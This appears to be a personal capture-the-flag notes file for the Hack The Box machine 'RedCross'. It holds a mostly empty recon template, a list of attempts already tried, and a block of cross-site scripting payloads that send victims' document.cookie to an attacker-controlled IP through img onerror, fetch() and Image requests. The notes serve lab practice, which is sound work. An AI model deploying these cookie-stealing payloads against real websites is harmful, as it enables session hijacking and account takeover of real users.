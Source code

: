 # RedCross Notes

## Data 

IP: 10.129.2.8
OS: Debian-10+deb9u3
Hostname: 
Domain: intra.redcross.htb
Machine Purpose:  
Services: 
Service Languages: php
Users:
Credentials:

First blood is 3H 7M 45S. 


#### Objectives

#### Target Map

#### Solution Inventory Map

https://medium.com/@marduk.i.am/exploiting-cross-site-scripting-to-steal-cookies-3d14c8b42fae
```html
<img src=x onerror="this.src='http://10.10.14.29/'+document.cookie; this.removeAttribute('onerror');">

<script><img src=x onerror="this.src='http://10.10.14.29:8888/'+document.cookie; this.removeAttribute('onerror');"></script>

<!-- https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies -->
<script> fetch('http://10.10.14.29:8888', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>

<script>fetch('http://10.10.14.29');</script>

<script>fetch('http://10.10.14.29')</script>

<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

https://gist.github.com/YasserGersy/a0fee5ce7422a558c84bfd7790d8a082 - javascript multi lines payload into one line
https://medium.com/@yassergersy/xss-to-session-hijack-6039e11e6a81



### Todo 




Make Excalidraw

### Done


#### OLD 
- injections 
- sqlmap
- php filter and fuzzed for files
- SSRF
- different vhost/subdomain
TLS vulnerabilities are all that is left!
- https://www.exploit-db.com/exploits/32764 - server closed connections
